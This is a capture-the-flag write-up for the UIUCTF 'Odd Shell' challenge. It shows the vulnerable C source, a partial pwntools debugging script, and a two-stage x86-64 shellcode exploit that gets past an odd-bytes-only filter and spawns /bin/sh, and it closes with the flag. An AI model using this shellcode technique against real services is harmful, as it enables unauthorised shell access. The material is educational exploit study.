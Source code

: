 # Odd Shell

Categories: Pwn/Shellcode

Description:
> odd shell
>
>- 107 points
>
>"3D render of a merchant displaying non-euclidean objects"
>
>O ho! You found me! I have a display of oddities available to you!
>
> `nc odd-shell.chal.uiuc.tf 1337`
>
>author: Surg
>
>[chal](src/chal) [Dockerfile](src/Dockerfile) [nsjail.cfg](src/nsjail.cfg)

**Tags:** pwn, shellcode

## Takeaways

- When having shellcode, take a look at existing data in registers/stack
- Always use hardware breakpoints with self-modifying stuff

## Solution

Let's reverse engineer the source code of the challenge:

```C
#define BASE ((char*)0x123412340000)
int main(void) {
  setvbuf(stdout,NULL,2,0);
  setvbuf(stderr,NULL,2,0);
  setvbuf(stdin ,NULL,2,0);
  puts("Display your oddities:");

  if (mmap(BASE,0x1000,7,0x32,-1,0) != BASE) {
    puts("I can\'t allocate memory!");
    exit(-1);
  }
  long nread = read(0,BASE,0x800);
  if (*(char *)(BASE + nread - 1) == '\n') {
    *(char*)(BASE + nread - 1) = '\0';
    nread = nread - 1;
  }
  for(long i=0; i<nread; ++i) {
    if ((*(byte *)(BASE + i) & 1) == 0) { //byte must be odd
        puts("Invalid Character");
        exit(-1);
  } }

  (*(code *)BASE)(); //invoke shellcode
  return 0;
}
```

As we can see, the source code is simple. The program allocates 1 page at address `0x123412340000` as RWX, reads up to `0x800` bytes of shellcode, and then executes it. The only restriction is that each byte of the shellcode must be odd.

Let's insert a breakpoint at the instruction which jumps to the shellcode and examine the registers:

```python
from pwn import *
context.binary = elfexe = ELF('./src/chal')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
gdbscript = '''
# call <shellcode>
hbreak *main+0x15d
continue
'''.format(**locals())
io.recvline()
io.send(b'A\n')
io.interactive()
sys.exit(0)
```

![registers.png](resources/registers.png)

This is interesting!

`$rax` and `$rdi` are 0, and `$rsi` and `$rdx` are the shellcode base address. There seems to be a nice way to overcome the odd byte limitation! With the current registers that we have, we can directly invoke the syscall `read(STDIN_FILENO, BASE, BASE)`. If we change `$rdx` to a more sensible value, then we will effectively overwrite our current shellcode and once we return from the syscall, the overwritten shellcode will continue. Here are our payloads and an illustration:


<table>
<tr>
<td>

```x86asm
/* All bytes here are odd */
31 db           XOR        EBX,EBX
83 c3 1f        ADD        EBX,0x1f
c1 e3 05        SHL        EBX,0x3
8b d3           MOV        EDX,EBX
0f 05           SYSCALL /*read(0, BASE, 0x3e0) */
<SHELLCODE OVERWRITTEN HERE>
```
Stage 1 Shell code

</td>
<td>

```x86asm
xor     rdx, rdx
push    rdx
mov     rbx, 0x0068732f6e69622f
push    rbx
mov     rdi, rsp
push    rdx
push    rdi
mov     rsi, rsp
mov     eax, 0x3b
syscall
```
Stage 2 Shellcode. Unrestricted. Invokes `execve("/bin/sh")`.

</td>
</tr>

</table>


<table>
<tr>
<td align="center">

![before.png](resources/before.png)

`syscall` from Stage 1 is about to be executed

</td>
<td align="center">

![after.png](resources/after.png)

Exactly stepped 1 instruction. The `read()` system call<br/>
overwrote the previous shelcode and its contents afterwards.

</td>
</tr>

</table>

So, if we run the [solution.py](solution.py), we can get a shell at the remote machine and dump the flag!

`uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
